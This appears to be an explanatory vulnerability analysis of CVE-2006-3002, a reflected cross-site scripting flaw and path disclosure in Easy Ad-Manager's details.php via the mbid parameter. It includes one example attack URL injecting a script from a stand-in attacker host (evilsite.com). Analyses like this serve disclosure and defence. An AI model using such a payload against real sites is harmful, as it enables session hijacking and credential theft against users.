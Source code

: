 Based on the provided content, here's an analysis related to CVE-2006-3002:

**Vulnerability Details:**
*   **Vulnerable Software:** Easy Ad-Manager (version unknown)
*   **Vulnerable File:** `details.php`
*   **Vulnerability Type:** Cross-Site Scripting (XSS)

**Root Cause:**
The `details.php` script is vulnerable to XSS due to insufficient sanitization of the `mbid` parameter within the `do=load` action. It appears that user-supplied input in the `mbid` parameter is being directly incorporated into the output without proper encoding or validation, allowing an attacker to inject arbitrary JavaScript code.

**Weaknesses/Vulnerabilities Present:**
*   **XSS:** The primary vulnerability is a reflected XSS vulnerability. This allows an attacker to inject malicious JavaScript code into a user's browser session by crafting a specific URL.
*   **Path Disclosure:** The vulnerability report also highlights a full path disclosure. The error messages, such as those starting with "Warning: fopen", reveal the server's file system structure (e.g., `/home/www/domainname/demo/eam/details.php`). This information could be used by an attacker to gain a better understanding of the target system and potentially exploit further vulnerabilities.

**Impact of Exploitation:**
*   **Arbitrary Script Execution:** An attacker can execute arbitrary JavaScript in the user's browser. This could lead to:
    *   **Session Hijacking:** Stealing session cookies, allowing the attacker to impersonate the user.
    *   **Phishing:** Displaying fake login forms or content to steal credentials.
    *   **Malware Distribution:** Redirecting the user to malicious websites or downloading malware.
    *   **Defacement:** Modifying the content of the web page.
    *   **Information Leakage:** Accessing sensitive information present in the browser session
*   **Information Disclosure:** Server file path information is disclosed, which could aid further attacks.

**Attack Vectors:**
*   **Malicious URL:** Attackers would craft a malicious URL containing the XSS payload in the `mbid` parameter. For example, `http://www.example.com/eam/details.php?do=load&mbid=/<SCRIPT%20SRC=http://evilsite.com/xss.js></SCRIPT>`.
*   **Social Engineering:** The malicious URL would be delivered to a victim, perhaps through email, social media, or other means. When the user clicks the link, the XSS payload is executed in the user's browser.

**Required Attacker Capabilities/Position:**
*   **No Privilege Required:** The attacker doesn't need any specific credentials or access to the target server.
*   **Ability to Deliver a Link:** The attacker needs to be able to get the user to click on the crafted URL.

**Additional Notes:**
The provided content also includes error messages related to file operations:
*   `Warning: fopen(stats//This is remote text via xss.js located at evilsite.combanner_cookie=visited%3Bvisited%3B.vis): failed to open stream: No such file or directory`
*   `Warning: fwrite(): supplied argument is not a valid stream resource`
*   `Warning: fclose(): supplied argument is not a valid stream resource`

These errors indicate that the injected JavaScript in the `mbid` parameter is being used to attempt file operations that are not properly handled, further revealing information and confirming a lack of sufficient input validation in the `details.php` script.

**Summary**
The provided content indicates that `Easy Ad-Manager` has a reflected XSS vulnerability in `details.php` which is triggered by manipulating the `mbid` parameter.
The error messages reveal a full path disclosure.
Successful exploitation would allow arbitrary JavaScript execution in the user's browser.